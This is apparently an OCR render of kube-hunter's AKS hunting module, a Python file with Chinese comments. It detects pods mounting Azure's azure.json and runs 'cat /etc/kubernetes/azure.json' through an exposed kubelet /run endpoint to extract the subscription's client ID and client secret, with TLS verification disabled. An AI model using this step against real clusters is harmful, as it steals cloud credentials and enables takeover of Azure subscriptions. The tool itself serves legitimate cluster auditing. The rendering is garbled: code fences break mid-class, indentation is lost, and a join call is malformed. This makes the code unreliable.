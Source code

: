 # `kubehunter\kube_hunter\modules\hunting\aks.py`

```
# 导入所需的模块
import json  # 导入处理 JSON 数据的模块
import logging  # 导入日志记录模块
import requests  # 导入发送 HTTP 请求的模块

# 从 kube_hunter.conf 模块中导入 config 变量
from kube_hunter.conf import config
# 从 kube_hunter.modules.hunting.kubelet 模块中导入 ExposedRunHandler 类
from kube_hunter.modules.hunting.kubelet import ExposedRunHandler
# 从 kube_hunter.core.events 模块中导入 handler 函数
from kube_hunter.core.events import handler
# 从 kube_hunter.core.events.types 模块中导入 Event 和 Vulnerability 类
from kube_hunter.core.events.types import Event, Vulnerability
# 从 kube_hunter.core.types 模块中导入 Hunter, ActiveHunter, IdentityTheft, Azure 类
from kube_hunter.core.types import Hunter, ActiveHunter, IdentityTheft, Azure

# 获取名为 __name__ 的 logger 对象
logger = logging.getLogger(__name__)

# 定义 AzureSpnExposure 类，继承自 Vulnerability 和 Event 类
class AzureSpnExposure(Vulnerability, Event):
    """The SPN is exposed, potentially allowing an attacker to gain access to the Azure subscription"""

    # 初始化方法，接受 container 参数
    def __init__(self, container):
        # 调用 Vulnerability 类的初始化方法
        Vulnerability.__init__(
            self, Azure, "Azure SPN Exposure", category=IdentityTheft, vid="KHV004",
        )
```

# 设置类的属性为传入的容器对象
        self.container = container

# 订阅ExposedRunHandler事件，当cloud为"Azure"时执行
@handler.subscribe(ExposedRunHandler, predicate=lambda x: x.cloud == "Azure")
class AzureSpnHunter(Hunter):
    """AKS Hunting
    Hunting Azure cluster deployments using specific known configurations
    """

    # 初始化方法，接收event参数，并设置base_url属性为特定格式的URL
    def __init__(self, event):
        self.event = event
        self.base_url = f"https://{self.event.host}:{self.event.port}"

    # 获取具有访问azure.json文件权限的容器
    def get_key_container(self):
        # 设置endpoint为特定格式的URL
        endpoint = f"{self.base_url}/pods"
        # 记录调试信息
        logger.debug("Trying to find container with access to azure.json file")
        # 尝试发送GET请求获取容器信息
        try:
            r = requests.get(endpoint, verify=False, timeout=config.network_timeout)
        # 处理请求超时异常
        except requests.Timeout:
# 记录调试信息，表示获取 pod 信息失败
logger.debug("failed getting pod info")
# 如果成功获取到 pod 数据
else:
    # 从返回的 JSON 数据中获取 pod 列表
    pods_data = r.json().get("items", [])
    # 遍历每个 pod 数据
    for pod_data in pods_data:
        # 遍历每个 pod 中的容器
        for container in pod_data["spec"]["containers"]:
            # 遍历每个容器中的挂载点
            for mount in container["volumeMounts"]:
                # 获取挂载路径
                path = mount["mountPath"]
                # 如果挂载路径是以 "/etc/kubernetes/azure.json" 开头
                if "/etc/kubernetes/azure.json".startswith(path):
                    # 返回包含容器名称、pod 名称和命名空间的字典
                    return {
                        "name": container["name"],
                        "pod": pod_data["metadata"]["name"],
                        "namespace": pod_data["metadata"]["namespace"],
                    }

# 执行方法
def execute(self):
    # 获取关键容器信息
    container = self.get_key_container()
    # 如果获取到容器信息
    if container:
        # 发布 AzureSpnExposure 事件，包含容器信息
        self.publish_event(AzureSpnExposure(container=container))
# 使用装饰器订阅 AzureSpnExposure 事件
@handler.subscribe(AzureSpnExposure)
class ProveAzureSpnExposure(ActiveHunter):
    """Azure SPN Hunter
    Gets the azure subscription file on the host by executing inside a container
    """

    # 初始化方法，接收事件对象并设置基本 URL
    def __init__(self, event):
        self.event = event
        self.base_url = f"https://{self.event.host}:{self.event.port}"

    # 执行方法，接收命令和容器参数，发送 POST 请求执行命令
    def run(self, command, container):
        run_url = "/".join(self.base_url, "run", container["namespace"], container["pod"], container["name"])
        return requests.post(run_url, verify=False, params={"cmd": command}, timeout=config.network_timeout)

    # 执行方法，尝试运行命令获取 Azure 订阅信息
    def execute(self):
        try:
            subscription = self.run("cat /etc/kubernetes/azure.json", container=self.event.container).json()
        except requests.Timeout:
            logger.debug("failed to run command in container", exc_info=True)
        except json.decoder.JSONDecodeError:
            # JSON 解析错误处理
# 如果解析 SPN 失败，则记录警告信息
logger.warning("failed to parse SPN")
# 如果解析成功，则将订阅信息中的相关字段赋值给事件对象的对应属性
if "subscriptionId" in subscription:
    self.event.subscriptionId = subscription["subscriptionId"]
    self.event.aadClientId = subscription["aadClientId"]
    self.event.aadClientSecret = subscription["aadClientSecret"]
    self.event.tenantId = subscription["tenantId"]
    # 生成事件的证据信息
    self.event.evidence = f"subscription: {self.event.subscriptionId}"
```